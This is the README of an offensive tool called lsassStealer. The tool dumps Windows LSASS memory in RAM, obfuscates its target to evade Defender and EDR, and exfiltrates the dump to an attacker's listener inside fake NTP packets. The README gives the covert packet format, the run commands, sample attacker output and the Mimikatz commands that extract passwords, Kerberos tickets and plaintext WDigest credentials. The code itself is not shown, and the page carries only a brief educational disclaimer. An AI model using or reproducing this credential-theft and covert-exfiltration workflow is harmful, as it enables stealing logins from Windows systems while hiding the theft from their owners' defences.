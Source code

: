 
<h1 align="center"> Project lsassStealer </h1>

## **🔍 Overview**
`lsassStealer` is an tool designed to **dump the memory of the Windows process `lsass.exe`** and **exfiltrate** it using **UDP packets disguised as NTP requests**. Unlike traditional tools like **Mimikatz**, this tool performs all operations **in RAM**, avoiding detection by **Windows Defender, EDR, and forensic tools**.

 
The project consists of:
- A **dumper** (`memdump.c`) to **extract LSASS memory in RAM**.
- A **sender** that transmits the **compressed dump over UDP (NTP packets)**.
- A **receiver** (`server.py`) that **reassembles the fragments** and **decompresses the memory dump**.

---

## **🛠 Features**
### **🔹 Process Identification**
- The **process name (`lsass.exe`) is obfuscated** in the source code using **XOR encoding** (`0x13` key) to **bypass static detection**.
- **Windows APIs (`CreateToolhelp32Snapshot`)** are used to **enumerate processes and extract the PID** dynamically.

### **🔹 Memory Dumping**
- Uses **MiniDumpWriteDump (from `DbgHelp.dll`)** to dump LSASS **directly into RAM**, **never touching the disk**.
- A **memory-mapped file** acts as a temporary buffer to minimize detection.

### **🔹 Compression (zlib)**
- The **dump is compressed in-memory** using `zlib` before transmission.
- This **reduces size** and makes the exfiltration **less detectable**.

### **🔹 Exfiltration via Fake NTP Packets**
- The **compressed dump is fragmented into small chunks** and sent via **UDP packets disguised as NTP traffic**.
- The **"Transmit Timestamp" field** of the NTP packet is **hijacked** to store **payload fragments**.

### **🔹 Receiver Script**
- A **Python-based receiver** (`receiver.py`) **listens on UDP port 123 (NTP)**.
- It **reassembles the fragmented dump**, **decompresses** it, and **writes it to a file**.

---

## **📜 How NTP Packet Camouflage Works**
### **🔹 Normal NTP Packet Structure**
NTP (Network Time Protocol) packets typically contain **48 bytes**, with the last 8 bytes storing the **Transmit Timestamp**.

```
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|LI | VN  |Mode |    Stratum     |     Poll      |  Precision   |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                          Root Delay                           |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                       Root Dispersion                         |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                     Reference Identifier                      |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                   Reference Timestamp (64 bits)               |
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                   Originate Timestamp (64 bits)               |
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                    Receive Timestamp (64 bits)                |
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                    Transmit Timestamp (64 bits)               |    <------- Hijacked
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### **🔹 How This Tool Abuses NTP**
- Instead of sending a **valid NTP Transmit Timestamp**, we hijack this field and we **embed data** into it.
- The **first packet** contains a **header**:
  - **4 bytes** → `total number of fragments` (big-endian)
  - **4 bytes** → `total compressed size` (big-endian)
- Each **subsequent packet** contains:
  - **4 bytes** → `fragment sequence number`
  - **4 bytes** → `data fragment`

This **allows memory dump exfiltration under the guise of legitimate NTP traffic**.

---

## **🚀 Installation & Compilation**
### **🔹 Windows (PowerShell)**
 -- If you have VSCode or another configured environment
 1. Run the following command:
   ```powershell
   Set-ExecutionPolicy Bypass -Scope Process -Force; ./run.ps1
   ```

---

## **🎯 Usage**
### **1️⃣ Run the Dumper (Attacker)**
On **Windows**:
```powershell
.\memdump.exe
```

You will be prompted to **enter the remote server IP and port** for exfiltration.

### **2️⃣ Run the Receiver (Listener)**
On the **attacker machine**, run:
```bash
python3 server.py
```
This will **listen on UDP port 123 (NTP)** and reconstruct the **exfiltrated dump**.

---

## **📌 Example Execution**
### **🟢 Attacker (Dumper)**
```
[*] Enter server IP: 192.168.1.100
[*] Enter server port: 123
[+] Process lsass.exe found with PID 1234
[+] Memory dump completed. Size: 16 MB.
[+] Compression completed. Compressed size: 512 KB.
[+] Header sent: 128 fragments, 512 KB total.
[+] Packet 1/128 sent.
...
[+] Transmission completed.
```

### **🟢 Receiver (Listener)**
```
[INFO] Listening on 0.0.0.0:123 (global timeout: 30s)
[INFO] Header received: 128 fragments, 512 KB compressed size.
[INFO] Receiving packets...
[Reconstitution] [========------] 50% (64/128)
[INFO] All fragments received.
[INFO] Decompressing...
[INFO] Dump saved as dump_memory.bin.
```
### WARNING : The exe has to be launched with SYSTEM privileges otherwise there's big chance it will fail.
---

## **🔍 Analyzing the Dump with Mimikatz**

Once you have obtained the memory dump file (`dump_memory.bin`), you can analyze it using **Mimikatz** to extract credentials and other sensitive information. Here are the steps and commands to do so:

1. **Download Mimikatz**: Ensure you have the latest version of Mimikatz from the official GitHub repository.

2. **Run Mimikatz**: Open a command prompt with administrative privileges and navigate to the directory containing Mimikatz.

3. **Load the Memory Dump**: Use the following commands to load and analyze the memory dump:

   ```shell
   mimikatz # sekurlsa::minidump dump_memory.bin
   mimikatz # sekurlsa::logonpasswords
   ```

   - The first command loads the memory dump file.
   - The second command extracts and displays logon passwords from the dump.

4. **Extract Additional Information**: You can use other Mimikatz commands to extract more information, such as:

   ```shell
   mimikatz # sekurlsa::tickets
   mimikatz # sekurlsa::wdigest
   ```

   - `sekurlsa::tickets`: Extracts Kerberos tickets.
   - `sekurlsa::wdigest`: Extracts plaintext credentials stored by WDigest.

---

## **⚠️ Legal Notice**
🚨 **This tool is for EDUCATIONAL and AUTHORIZED TESTING ONLY.**
Use this tool **only on systems you own or have explicit permission to test**.

---
